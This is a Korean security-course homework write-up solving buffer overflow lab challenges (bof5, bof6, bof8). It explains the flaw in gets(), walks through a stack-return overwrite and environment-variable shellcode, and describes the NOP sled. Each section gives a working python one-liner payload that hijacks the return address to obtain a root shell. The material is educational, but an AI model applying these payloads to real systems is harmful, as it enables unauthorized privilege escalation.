 # GBC Security_07

## HW #7

### Buffer Overflow
---

#### 0. main idea
*  `gets()`함수와 `strcpy()`함수는 입력받는 data의 크기를 검사하지 않기 때문에, 정해진 메모리의 크기를 초과하여 data가 전달되었을 경우, 초과한 data가 그대로 stack에 저장되게 된다. 이 취약점을 이용하여 return address를 원하는 주소로 덮어 씌울 수 있다. 

	> 인자에 buf보다 큰 값을 전달하면, innocent 변수 직전까지 값이 채워져 그 이후 입력한 값이 innocent 변수를 덮어쓸 수 있게 될 것이다. (bof 1 - 5)



#### 1. bof5

> `gets()`의 취약점을 이용한다.

![bof6](https://user-images.githubusercontent.com/47182864/61315366-93560080-a839-11e9-9110-cae98865dc72.png)

> `gets()`가 차지하는 메모리의 크기를 알아야 한다. 따라서, `innocent의 주소값 - gets()의 시작 주소값`을 해주면 함수가 차지하는 메모리의 크기를 구할 수 있다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61315363-93560080-a839-11e9-8d32-95e7f4f5ed9f.png)

> `system()`에서 인자로 input값인 buf를 받고 있기 때문에, shell로 실행하기 위해서는 shell을 실행시킬 수 있는 명령으로 입력해야 한다.

![bof6-3](https://user-images.githubusercontent.com/47182864/61315364-93560080-a839-11e9-8a88-28b3b1e15c92.png)

> payload


```shell
shell code (8byte) + 쓰레기 값 (132byte) + return address 
```


> 따라서, 다음과 같은 익스플로잇으로 root shell을 탈취할 수 있다.

```shell
(python -c "print '/bin/sh\x00'+'G'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```
> >`/bin/sh\x00` : `/bin/sh`는 shell을 실행시키기 위함이고, `\x00`은 문자열의 끝을 알리는 null byte이다.  
> > `'G'*132` : 전체 140byte에서 쉘코드가 8byte를 차지하고 있기 때문에, 쓰레기값은 남은 132byte를 채워줘야 한다.  
> >`\x78\x56\x34\x12` : KEY값 0x12345678을 16진수로 저장하기 위해서는 \x를 사용하여 리틀엔디안 방식으로 기입해야한다.   
> >`cat` : 표준 입력이 끊기지 않도록 해준다.  
> >`|` : 파이프 라인을 이용하여 출력할 값을 표준 출력으로 보낸 후, 다음 프로세스의 표준 입력으로 전달한다.


> [ result ]

![r5](https://user-images.githubusercontent.com/47182864/61317274-a5d23900-a83d-11e9-9094-6429d81e5be9.png)

#### 2. bof6

> `gets()`의 취약점을 이용한다. 
> `system()`이 shell을 호출하지 않으니, buf에서 input으로 shell코드를 받아 전달해줘야 한다.

![bof6](https://user-images.githubusercontent.com/47182864/61318142-5a208f00-a83f-11e9-8a1d-3434db18a2d4.png)

> `ret`일 때의 `rsp - gets()의 시작 주소값`하여 buf의 크기를 구해준다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61318140-5987f880-a83f-11e9-8d87-2024584d5fd3.png)
![bof6-3](https://user-images.githubusercontent.com/47182864/61318141-5a208f00-a83f-11e9-9c4c-0895c02b07e9.png)


> payload


```shell
쓰레기 값 (136byte) + return address 
```

> shellcode:0x601050일 때, 다음과 같은 익스플로잇으로 root shell 탈취 가능

```shell
(python -c "print 'G'*136+'\x50\x10\x60\x00\x00\x00\x00\x00'";cat) | ./bof6
```
> >`'G'*136` : 쓰레기값 G로 버퍼를 136만큼 덮어준다.
> >`\x50\x10\x60\x00\x00\x00\x00\x00` : shell code의 시작 주소를 리틀 엔디안 형식으로 입력해준다 (8byte).

> [ result ]

![r6](https://user-images.githubusercontent.com/47182864/61319738-ca7cdf80-a842-11e9-8371-5d3f63ebdf94.png)

##### +) plus
* 아래와 같이 랜덤한 값을 넣어가며 버퍼의 크기를 예측할 수도 있다.
* 아래에서 135를 입력했을 때는 segmentation fault가 뜨지 않는데, 136을 입력하면 segmentation fault가 뜬다. 이 경우, 135가 buffer의 크기일까? __buffer의 크기는 136이다.__
* 136일때 segmentation fault가 뜨는 이유는, 뒤에 null byte까지 채워져서 그런 것이라고 한다.
![plus](https://user-images.githubusercontent.com/47182864/61319889-3a8b6580-a843-11e9-8d80-fc8d03371d20.png)

#### 3. bof8

> BUF_SIZE가 8밖에 되지 않아서, buffer에 shell code를 쓰기 어렵다. 이런경우, 환경변수를 사용해야한다. 

> > * __환경변수를 이용한 bof__ : 환경변수는 프로세스가 실행되는 동안, 스택에 위치하고 있다. 즉, 이 환경변수에 쉘코드를 저장하고 RET값을 환경변수가 위치한 주소로 세팅하는 방식으로 Root권한을 획득할 수 있다. 


![bof8](https://user-images.githubusercontent.com/47182864/61323693-9a860a00-a84b-11e9-96c0-5758457a35ac.png)

> 환경변수는 유저가 조작할 수 있기 때문에, export 명령어를 이용해서, 환경변수를 등록한다. getenv에 환경변수를 넣으면 주소값을 반환한다.

![bof8-2](https://user-images.githubusercontent.com/47182864/61346357-60d8f180-a893-11e9-9842-c5e32748306c.png)


> payload

```shell
쓰레기 값 (24byte) + return address 
```

> shellcode의 주소가 0x7fffffffe824일 때, 다음과 같은 익스플로잇으로 root shell 탈취 가능

```shell
(python -c "print 'G'*24 + '\x24\xe8\xff\xff\xff\x7f\x00\x00'";cat) | ./bof8
```

> >`'G'*24` : 쓰레기값 G로 버퍼를 24만큼 덮어준다.
> >`\x24\xe8\xff\xff\xff\x7f\x00\x00` : shell code의 시작 주소를 리틀 엔디안 형식으로 입력해준다 (8byte).

> [ result ]
> 
![bof8-3](https://user-images.githubusercontent.com/47182864/61346358-60d8f180-a893-11e9-90d1-ff4e98f50626.png)
	
---
### +) plus
---
* NOP 슬레이드 기법
	- 버퍼의 정확한 주소를 찾는 문제를 해결하는 것으로, 표적 영역의 크기를 증대시킨다. 공격자가 __NOP__명령어 이후에 버퍼의 최상위 위치, 셸 코드가 있는 곳으로 jump명령어를 둠으로 NOP슬레이드라고 부른다. RET주소를 덮어쓸 때, NOP영역 내의 주소값 어디를 써도 결국 NOP명령어를 따라 미끄러져 마지막 jump로 실제 악성코드가 있는 위치로 이동되기 때문이다.
	- 이 기법은 공격자가 상대적으로 작은 크기의 셸 코드의 위치 대신 스택에서 NOP슬레이드의 위치를 추정하면 된다.


쉘코드 만들기
<https://bob3rdnewbie.tistory.com/124>
참고
<http://m.blog.daum.net/sysnet924/154?np_nil_b=2>


---
### 2. ETC
---
양질의 컨텐츠 , , __빛 찬 솔__. 